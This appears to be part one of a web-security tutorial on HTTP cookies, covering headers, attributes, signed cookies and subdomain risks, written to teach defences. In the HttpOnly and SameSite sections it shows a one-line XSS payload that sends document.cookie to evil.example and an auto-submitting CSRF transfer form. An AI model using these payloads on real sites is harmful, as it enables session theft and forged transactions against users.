

# Cookies and Sessions — Part 1

You arrive at a theatre and hand your coat to the cloakroom. You get back a
small paper ticket with a number on it: **47**.

That ticket is not your coat. It is not a description of your coat. It is a
meaningless number. But when you come back and show it, the attendant looks at
hook 47 and returns your coat. The *knowledge* lives behind the counter; you
carry only the pointer.

This part is about the ticket: what a cookie is, the exact HTTP headers that
carry it, every attribute you can put on it, and the two attacks — cookie
theft and CSRF — that those attributes exist to stop.

Part 2 is about the coat on hook 47: the server-side session.

> **➡️ Continued in [Part 2](03-cookies-and-sessions-part-2.md).**

> **📌 In one line:** a cookie is a small piece of text the browser stores and
> then attaches automatically to every matching request — and because it is
> automatic, its attributes (`HttpOnly`, `Secure`, `SameSite`) are the entire
> security model.

## Table of Contents

1. [A Cookie Is a Cloakroom Ticket](#a-cookie-is-a-cloakroom-ticket)
2. [The Raw HTTP: Set-Cookie and Cookie](#the-raw-http-set-cookie-and-cookie)
3. [Every Cookie Attribute](#every-cookie-attribute)
4. [HttpOnly and Secure: the Two That Stop Theft](#httponly-and-secure-the-two-that-stop-theft)
5. [SameSite and the Attack It Blocks](#samesite-and-the-attack-it-blocks)
6. [Signed Cookies, Encrypted Cookies, and 4 KB](#signed-cookies-encrypted-cookies-and-4-kb)
7. [BROKEN vs FIXED: the Naked Session Cookie](#broken-vs-fixed-the-naked-session-cookie)
8. [Advanced: Subdomains and Third-Party Cookies](#advanced-subdomains-and-third-party-cookies)
9. [Common Mistakes](#common-mistakes)
10. [Questions to Test Yourself](#questions-to-test-yourself)
11. [Related](#related)

---

## A Cookie Is a Cloakroom Ticket

HTTP forgets you between requests
([how the web works](../01-http-foundations/01-how-the-web-works.md)). A
**cookie** is the standard patch for that.

The definition, with nothing missing:

> A cookie is a small piece of text that a server asks a browser to store, and
> that the browser then attaches automatically to every matching future
> request to that site.

Three words in that sentence carry all the weight:

- **asks** — the server only suggests; the browser decides whether to keep it.
- **automatically** — you write no code on the client. The browser attaches it.
  This is convenient, and it is also the root cause of CSRF (section 5).
- **matching** — "matching" is defined by the cookie's attributes (section 3).

A cookie is a `name=value` pair. That is all it is. `sid=8f3ad9c1`,
`theme=dark`, `lang=en`. The browser stores it per site and per profile.

> **💡 Tip:** cookies are not only for login. A language choice, an "accepted
> terms" flag and an A/B test bucket are all normal cookies. Only the
> **session cookie** is a credential, and only it needs the full security
> treatment below.

---

## The Raw HTTP: Set-Cookie and Cookie

Two headers do the whole job. One goes down, one comes back up.

**The server sets a cookie with a `Set-Cookie` response header:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: sid=8f3ad9c1b2e47f06; Path=/; Max-Age=86400; Secure; HttpOnly; SameSite=Lax

{"user":{"id":42,"name":"Sara"}}
```

**The browser sends it back with a `Cookie` request header:**

```http
GET /api/projects HTTP/1.1
Host: app.acme.com
Cookie: sid=8f3ad9c1b2e47f06; theme=dark; lang=en
```

Notice the asymmetry, because it confuses people for years:

| | `Set-Cookie` (response) | `Cookie` (request) |
|---|---|---|
| Direction | server → browser | browser → server |
| Cookies per header line | exactly **one** | **all** matching cookies, `; ` separated |
| Attributes included | yes (`Path`, `Secure`, …) | **no** — only `name=value` |
| Repeated header allowed | yes, one line per cookie | no, one line total |

The server **never sees** the attributes it set. It receives
`sid=8f3ad9c1b2e47f06` and nothing else. So you cannot ask at runtime "was this
cookie sent over HTTPS, with `HttpOnly`?" — you can only set it correctly in
the first place.

```mermaid
sequenceDiagram
    participant B as Browser
    participant S as Server
    B->>S: POST /login {email, password}
    S->>S: verify password, create session record
    S-->>B: 200 OK<br/>Set-Cookie: sid=8f3a...; HttpOnly; Secure; SameSite=Lax
    B->>B: store cookie for app.acme.com
    Note over B,S: every later request, with no client code
    B->>S: GET /projects<br/>Cookie: sid=8f3a...
    S->>S: look up session 8f3a... → userId 42
    S-->>B: 200 OK [projects of user 42]
    B->>S: POST /logout<br/>Cookie: sid=8f3a...
    S->>S: DELETE the session record
    S-->>B: 204 No Content<br/>Set-Cookie: sid=; Max-Age=0
```

Deleting a cookie is not a special header. You re-set the same cookie with an
expiry in the past (`Max-Age=0`) **and the same `Path` and `Domain`** — if
those differ, you create a second cookie instead of removing the first.

---

## Every Cookie Attribute

Attributes are instructions to the browser about *when* to send the cookie back
and *who* may read it. They are the security model.

| Attribute | Plain-English meaning | Security note |
|---|---|---|
| `Domain=acme.com` | Send to this host **and all its subdomains**. Omitting it is stricter: the cookie goes only to the exact host that set it. | Omit it unless you truly need subdomain sharing. Setting it hands the cookie to every subdomain, including a forgotten `old-blog.acme.com`. |
| `Path=/admin` | Only send on URLs starting with this path. Default `/`. | **Not a security boundary.** Scripts on the same origin can reach other paths' cookies. Use it for tidiness, never for isolation. |
| `Expires=Wed, 01 Oct 2026 12:00:00 GMT` | Absolute date to delete the cookie. Uses the *browser's* clock. | A wrong client clock changes the real lifetime. Prefer `Max-Age`. |
| `Max-Age=86400` | Delete after this many seconds. Wins over `Expires` when both are present. | Clock-independent. `Max-Age=0` deletes immediately. |
| *(neither set)* | **Session cookie** — kept until the browser closes. | "Restore my tabs" on modern browsers often keeps these alive for weeks. Do not treat it as an expiry. |
| `Secure` | Only send over HTTPS. Never over plain `http://`. | Without it, one `http://` link leaks the session in clear text on the network. |
| `HttpOnly` | JavaScript cannot read it. `document.cookie` does not show it. | The main defence stopping an XSS bug from **stealing** the session. |
| `SameSite=Lax` | Sent on same-site requests and on top-level navigations that are `GET`. **Browser default today.** | Blocks cross-site `POST`, image, iframe and `fetch` requests — that is most CSRF. |
| `SameSite=Strict` | Sent only on same-site requests. Never on anything that came from another site. | Safest, but clicking a link to your app from an email arrives logged out. |
| `SameSite=None` | Sent on every cross-site request. **Requires `Secure`.** | Only for genuine third-party use (embeds, widgets). You then need real CSRF tokens. |
| `Partitioned` | A cross-site cookie stored separately per top-level site (CHIPS). | New. For embedded widgets that must keep state without being a tracking cookie. |
| `__Host-` name prefix | A rule the browser enforces on the **name**: the cookie must have `Secure`, `Path=/`, and **no `Domain`**. | The strongest single win available. No other host can overwrite it, so subdomain cookie injection becomes impossible. |
| `__Secure-` name prefix | Must have `Secure`. Weaker than `__Host-`. | Use `__Host-` unless you genuinely need `Domain`. |

The recommended default for a session cookie:

```http
Set-Cookie: __Host-sid=8f3ad9c1b2e47f06; Path=/; Secure; HttpOnly; SameSite=Lax; Max-Age=86400
```

> **⚠️ Warning:** `__Host-sid` is the cookie's actual name. Your server code
> must read `req.cookies['__Host-sid']`. The prefix is not stripped anywhere.

---

## HttpOnly and Secure: the Two That Stop Theft

### HttpOnly

**Cross-site scripting (XSS)** means an attacker got JavaScript to run on your
page — through an unescaped comment, a vulnerable dependency, a bad ad script.
That script runs with your site's full privileges.

Without `HttpOnly`, the first thing it does is this:

```js
// attacker's injected script
fetch('https://evil.example/collect?c=' + encodeURIComponent(document.cookie))
```

One line, and every visitor's session is on the attacker's server. They can
replay it from their own laptop for as long as the session lives.

With `HttpOnly`, `document.cookie` simply does not contain the session cookie.
The attacker's script can still *use* the session by making requests from
inside the victim's browser — but it cannot **export** it. That downgrade
matters enormously:

| | Without `HttpOnly` | With `HttpOnly` |
|---|---|---|
| Attacker can act as the user | while the page is open | while the page is open |
| Attacker can act later, from their own machine | **yes** | no |
| Attack survives the user closing the tab | **yes** | no |
| Attacker can sell or share the credential | **yes** | no |

> **📌 Remember:** `HttpOnly` does not fix XSS. It caps the damage. Fix XSS by
> escaping output and setting a Content-Security-Policy — see
> [security headers](../01-http-foundations/05-headers.md#security-headers).

### Secure

Without `Secure`, the browser will happily send the cookie over plain HTTP.
Anyone on the same network — a café Wi-Fi, a compromised router, a malicious
ISP proxy — reads the session id in clear text. A single
`http://app.acme.com/logo.png` reference inside an email is enough to trigger
it.

Set `Secure` always, in every environment. Browsers make an exception for
`localhost` and accept `Secure` cookies over HTTP there, so there is no reason
to switch it off in development.

---

## SameSite and the Attack It Blocks

Remember the word **automatically**. The browser attaches your cookies to
requests for your site *no matter who asked for that request*.

### The attack, concretely

Sara is logged into `bank.acme.com`. In another tab she opens
`free-puppies.example`, which contains:

```html
<!-- attacker's page -->
<form action="https://bank.acme.com/transfer" method="POST" id="f">
  <input type="hidden" name="to" value="attacker-account">
  <input type="hidden" name="amount" value="5000">
</form>
<script>document.getElementById('f').submit()</script>
```

The browser posts to the bank **and attaches Sara's session cookie**, because
that is what cookies do. The bank sees a perfectly authenticated request. This
is **CSRF** (Cross-Site Request Forgery). The attacker never reads the cookie
and never sees the response — they simply make the browser act.



### What each value does to that request

| Request coming from another site | `SameSite=None` | `SameSite=Lax` (default) | `SameSite=Strict` |
|---|---|---|---|
| Cross-site `POST` form | sent ❌ | **not sent** ✅ | not sent ✅ |
| Cross-site `fetch` / XHR | sent ❌ | **not sent** ✅ | not sent ✅ |
| `` or `<iframe>` pointing at your site | sent ❌ | **not sent** ✅ | not sent ✅ |
| User clicks a link to your site | sent | **sent** | not sent (arrives logged out) |
| Top-level `GET` navigation | sent | sent | not sent |

`Lax` is the sweet spot and is now the browser default: it kills every
cross-site write while keeping "click the link in the email" working.

> **⚠️ Warning:** `Lax` still sends the cookie on a top-level `GET`. So a `GET`
> endpoint that changes data (`GET /account/delete`) remains exploitable. Use
> the right [HTTP methods](../01-http-foundations/03-http-methods.md): a `GET`
> must never modify anything.

`SameSite` is a strong default, not a complete defence. It depends on the
browser being modern and on all of your side effects living behind non-`GET`
methods. For anything that moves money or changes permissions, add tokens —
the middleware is in
[Part 2](03-cookies-and-sessions-part-2.md#csrf-protection-for-cookie-auth).

---

## Signed Cookies, Encrypted Cookies, and 4 KB

Three different things, often muddled:

| Kind | What the client sees | What it protects | Typical use |
|---|---|---|---|
| **Plain** | the value | nothing | `theme=dark` |
| **Signed** | the value **plus an HMAC** | tampering — the server detects any edit | flash messages, a cart id |
| **Encrypted** | ciphertext only | tampering **and** reading | rare; a small stateless session |

A signed cookie looks like `cart=abc123.9f2a7c...`, where the part after the dot
is `HMAC-SHA256(secret, "abc123")`. The server recomputes the HMAC and compares
it with a timing-safe comparison (see
[file 02](02-passwords-and-hashing.md#timing-attacks-and-constant-time-comparison)).
**Signed does not mean hidden** — anyone can read `abc123`.

Encryption is real but rarely worth it: you have re-created a session whose
record lives in the browser, so you still cannot revoke it, and you now own key
rotation as a permanent chore.

### The 4 KB limit

Browsers cap each cookie at about **4096 bytes**, and typically allow around 50
cookies per domain. More importantly, every cookie is re-sent on **every single
request** to your site, including images, CSS and fonts. A 3 KB cookie on a page
with 40 assets means roughly 120 KB of uploaded headers per page view, on a
connection whose upload speed is the slow direction.

So: store the id, not the object. The 4 KB limit is the hint; the per-request
cost and the inability to revoke are the real reasons.

---

## BROKEN vs FIXED: the Naked Session Cookie

```ts
// ❌ BROKEN — readable by any script, sent over plain HTTP, attached cross-site
res.cookie('sid', sessionId)
```

Three separate holes in one line:

1. An XSS bug exports the session permanently (no `HttpOnly`).
2. Café Wi-Fi reads it in clear text (no `Secure`).
3. Any website can make authenticated requests as the user (no `SameSite`, on
   an older browser that does not default to `Lax`).

```ts
// ✅ FIXED — every attribute present, and named so the browser enforces them
res.cookie('__Host-sid', sessionId, {
  httpOnly: true,            // JavaScript cannot read it
  secure: true,              // HTTPS only
  sameSite: 'lax',           // blocks cross-site POST / fetch / iframe
  path: '/',                 // required by the __Host- prefix
  maxAge: 24 * 60 * 60 * 1000,
  // no `domain` — required by __Host-, and keeps subdomains out
})
```

Read the fixed version as a checklist. If you can only remember one thing,
remember the **name**: `__Host-` forces `Secure`, forces `Path=/`, and forbids
`Domain`, so the browser refuses the cookie if you get any of those wrong.

---

## Advanced: Subdomains and Third-Party Cookies

### Cookies across subdomains

Cookies do **not** follow the same-origin rules you know from JavaScript. They
ignore the port, largely ignore the scheme, and work on *registrable domain*
boundaries.

- `Set-Cookie: sid=...` with **no** `Domain`, set by `app.acme.com` → sent only
  to `app.acme.com`. This is what you want.
- `Set-Cookie: sid=...; Domain=acme.com` → sent to `acme.com`, `app.acme.com`,
  `blog.acme.com`, `staging.acme.com`, everything.

The risk is **cookie injection**. A compromised or vendor-hosted subdomain
(`status.acme.com` running on someone else's platform) can set a
`Domain=acme.com` cookie that your main app then reads — including overwriting
the session id, which re-opens session fixation
([Part 2](03-cookies-and-sessions-part-2.md#regenerate-the-id-at-login)). The
`__Host-` prefix makes this impossible, because a `__Host-` cookie may not
carry `Domain` at all.

If you genuinely need single sign-on across subdomains, do it deliberately: one
`Domain=acme.com` session cookie, and treat every subdomain as fully trusted
code that you deploy yourself.

### The third-party cookie change

A **third-party cookie** is one belonging to a different site than the one in
the address bar — the classic tracking mechanism. Safari and Firefox block them
by default, and Chrome has spent years restricting them. For authentication
this matters in two places:

- An authentication iframe, or a silent-refresh iframe on another domain, stops
  receiving its cookie. Modern OAuth flows use full-page redirects for exactly
  this reason — see
  [file 05 part 1](05-oauth2-and-social-login-part-1.md).
- A separately hosted API (`api.acme.io` serving a frontend on `app.acme.com`)
  is a cross-site cookie. It needs `SameSite=None; Secure`, plus real CSRF
  tokens, plus CORS with credentials. Hosting the API under the same
  registrable domain (`acme.com/api`, or `api.acme.com` for `app.acme.com`)
  avoids all of it. Do that when you can.

`Partitioned` (CHIPS) is the escape hatch for embedded widgets that need their
own state per top-level site without being a tracking cookie.

---

## Common Mistakes

| Mistake | Why it is wrong | Do this instead |
|---|---|---|
| Forgetting `HttpOnly` | One XSS bug exports every session permanently | Set it on every credential cookie |
| Forgetting `Secure` "because it is only staging" | Staging sessions are real sessions on real networks | Set it everywhere; browsers exempt `localhost` |
| Using `Path` as a security boundary | Same-origin scripts can reach any path's cookies | Use separate cookies, or separate origins |
| `SameSite=None` copied from a tutorial | Re-enables CSRF for every user | Use `Lax`; relax it only for a real third-party need |
| A `GET` endpoint that changes data | `SameSite=Lax` still sends the cookie on top-level `GET` | Use `POST`/`PUT`/`PATCH`/`DELETE` for all writes |
| Deleting a cookie without the original `Path`/`Domain` | Creates a second cookie; the first survives | Re-set with identical `Path` and `Domain`, `Max-Age=0` |
| `Domain=acme.com` set out of habit | Every subdomain, including vendor-hosted ones, gets your session | Omit `Domain`, and use the `__Host-` prefix |
| Trusting `Expires` for short lifetimes | It uses the client's clock, which can be wrong or edited | Use `Max-Age`, and enforce expiry server-side anyway |
| Assuming a "session cookie" dies with the browser | Tab restore keeps it alive for weeks | Set an explicit `Max-Age` and a server-side expiry |
| Thinking a signed cookie is a private cookie | Signing prevents edits, not reading | Never put anything readable-sensitive in a cookie |

---

## Questions to Test Yourself

1. The server sets `Set-Cookie: sid=abc; HttpOnly; Secure; SameSite=Lax`. Write
   out the `Cookie` header the browser sends back. Why is it shorter?
2. An XSS bug exists on your site. Explain precisely what `HttpOnly` prevents
   and what it does **not** prevent.
3. An attacker's page auto-submits a `POST` form to your `/transfer` endpoint.
   Walk through what the browser does with `SameSite=Lax` set, and what it does
   with `SameSite=None`.
4. Why is `Path=/admin` not a security boundary?
5. What three things does the `__Host-` prefix force or forbid, and which
   specific attack does that combination prevent?
6. Your marketing site sets a `Domain=acme.com` cookie from a vendor-hosted
   subdomain. Describe how that could end in an account takeover on
   `app.acme.com`.
7. A teammate wants to store `{userId, role}` in a *signed* cookie so you do
   not need a session store. Name two problems that signing does not solve.
8. Why does a 3 KB cookie hurt page load more than a 3 KB API response?

---

## Related

- [Part 2](03-cookies-and-sessions-part-2.md) — what a session actually is,
  where to store it, the lifecycle, CSRF middleware, and why mobile apps prefer
  tokens.
- [Authentication Basics](01-authentication-basics.md) — the login flow these
  cookies carry.
- [Passwords and Hashing](02-passwords-and-hashing.md) — step 2 of that flow,
  before any cookie is set.
- [Headers](../01-http-foundations/05-headers.md) — `Set-Cookie`, `Cookie`,
  `Authorization`, and the security headers that limit XSS.
- [HTTP Methods](../01-http-foundations/03-http-methods.md) — why a `GET` must
  never change state, and how `SameSite=Lax` depends on that.
- [HTTPS and TLS](../01-http-foundations/06-https-and-tls.md) — what `Secure`
  actually relies on.
- [Part 11 — API Security](../11-api-security/) — XSS and CSRF inside the wider
  attack catalogue.
